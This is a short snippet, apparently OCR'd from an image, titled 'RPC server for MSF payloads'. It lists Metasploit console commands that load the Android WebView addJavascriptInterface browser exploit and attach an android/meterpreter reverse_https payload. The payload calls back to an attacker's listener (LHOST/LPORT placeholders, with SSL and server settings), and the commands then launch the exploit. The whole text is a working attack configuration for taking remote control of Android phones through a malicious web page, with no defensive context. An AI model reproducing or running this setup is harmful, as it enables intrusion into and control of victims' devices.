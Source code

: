 RPC SERVER FOR MSF PAYLOADS

# connection 
use exploit/android/browser/webview_addjavascriptinterface
set PAYLOAD android/meterpreter/reverse_https
set LHOST <your_django_server_url>
set LPORT <your_listener_port>
set URIPATH /
set SSL true
set SRVPORT <your_server_port>
set SRVHOST <your_server_ip>
exploit
